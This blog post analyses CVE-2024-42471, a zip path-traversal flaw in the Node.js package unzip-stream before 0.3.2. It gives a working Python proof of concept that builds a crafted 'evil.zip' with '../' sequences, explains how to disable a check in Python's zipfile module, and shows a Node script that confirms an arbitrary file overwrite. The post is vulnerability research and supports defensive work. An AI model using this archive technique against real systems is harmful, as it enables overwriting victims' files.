 ```yaml
---
title: CVE-2024-42471 - unzip-stream Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-unzip-stream-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-42471

## Introduction
Zip it, unzip it — and boom, you've got unintended file writes on your hands.

In this post, we dive into a directory traversal vulnerability in the popular Node.js package [`unzip-stream`](https://www.npmjs.com/package/unzip-stream), specifically affecting versions **before 0.3.2**. When using the `Extract()` method to decompress zip files, a specially crafted archive can escape the intended extraction directory and **write files to arbitrary locations** on the file system.

In this blog post, we’ll break down the bug and walk through a working proof-of-concept (PoC).

## Vulnerability Analysis
After developing an exploit for [CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx), I became curious about other file write or overwrite vulnerabilities that lacked a public proof-of-concept (PoC). During that exploration, I came across [CVE-2024-42471](https://github.com/advisories/GHSA-6jrj-vc65-c983).

Once again, I decided to roll up my sleeves and develop an exploit for this vulnerability. In this post, I’ll walk you through the process, from vulnerability analysis to crafting a working PoC that demonstrates the risks involved.

I started off by looking at the [commit](https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a) that fixed the vulnerability and basically the patch diff.

In *Figure 1* we can see the commit and that line `291` was deleted and replaced. 
![GitHub commit](github_patch_diff.png)

Firstly, the `entry.path` object in `unzip-stream` determines the path of the file within the zip archive, and this path is then used by `unzip-stream` to decide where to extract the file on the target system.

The original code (highlighted in red) relied on a regular expression to detect and remove directory traversal sequences. However, this approach was limited and prone to bypasses. To address this, the code was updated with a newer implementation (shown in green), which aims to handle the directory traversal issue more effectively.


To better understand how this regex behaves, we can use [Regexr](https://regexr.com/) to test various payloads.

For instance, when testing the classic directory traversal pattern `../`, we immediately get a match:

![Testing Raw Directory Traversal](testing_with_regexr.png)
*Figure 1: Testing the regex filter*

Upon further examination of the regex, I realized that it only matches strings that begin with the `../` pattern. This creates an opportunity for bypassing the filter by using alternative traversal strings, such as `hack/../../../`, which the regex does not catch.

This bypass technique is demonstrated in *Figure 2*.

![Bypassing Regex](bypassing_regex_on_regexr.png)
*Figure 2: Bypassing the regex filter*

As shown, this approach successfully bypasses the regex and allows for directory traversal, exposing the limitations of the old filtering mechanism.

This implies that an attacker can craft a zip file containing file paths with directory traversal strings. By doing so, they can manipulate the extraction process to point to files located outside the intended extraction directory, potentially overwriting sensitive files or causing other unintended behavior.

## Exploit Development
I developed a working exploit using Python. The core idea is to modify the path of the file within the zip archive to include directory traversal sequences before packaging it. This tricks the vulnerable `unzip-stream` extractor into writing files outside of the intended directory.

```python
import zipfile
import os

file_path = './poc'
zip_name = 'evil.zip'
path_to_overwrite_file = 'home/mcsam/pocc'

if not os.path.isfile(file_path):
    print(f"Error: File '{file_path}' does not exist.")
    return

with zipfile.ZipFile(zip_name, 'w', zipfile.ZIP_DEFLATED) as zipf:
    zipf.write(file_path, \
    arcname=f'hack/../../../../../../../../../../../../../../{path_to_overwrite_file}')
    print(f"File '{file_path}' has been zipped as '{zip_name}'.")
```

There’s an important issue we need to address. The built-in Python `zipfile` library enforces a restriction that prevents  `arcnames` starting with alphanumeric characters from containing directory traversal sequences like `../`. FYI arcname is the name that will be used for the file within the archive.

Because of this limitation, I had to manually patch the `zipfile.py` module to disable the validation check that enforces this behavior. This allowed me to create zip entries with traversal paths necessary for the exploit to work.

On my system the path to the file was: `/usr/lib/python3.10/zipfile.py`. I commented out the check and the i run the exploit to craft the malicious zip file.
![Patching Zipfile for python3](patching_zipfile_python3.png)

The contents of the zip file should look like this after running the exploit:
```
mcsam@0x32:~/Documents/slippy$ unzip -l evil.zip 
Archive:  evil.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       15  2025-04-18 18:35   hack/../../../../../../../../../../../../../../home/mcsam/pocc
---------                     -------
       15                     1 file
```

## ✅ Verifying / Testing the Exploit

To test this PoC, we first set up a development environment and install the vulnerable version of `unzip-stream` using:

```
npm install unzip-stream@0.3.1
```

Next, I crafted a simple test script (`index.js`) that imports `unzip-stream` and extracts the malicious archive:
```
const unzip = require('unzip-stream');
const fs = require('fs');

fs.createReadStream('evil.zip').pipe(unzip.Extract({ path: './hack' }));
```

After executing the script with:
```
node index.js
```
the payload is triggered, and the file `/home/msam/pocc` is successfully overwritten — confirming the exploit works as intended.

#### Verifying the exploit
![Final file overwrite](successfull_file_overwrite.png)

## References
- [https://github.com/advisories/GHSA-6jrj-vc65-c983](https://github.com/advisories/GHSA-6jrj-vc65-c983)
- [https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a](https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a)
- [https://www.npmjs.com/package/unzip-stream](https://www.npmjs.com/package/unzip-stream)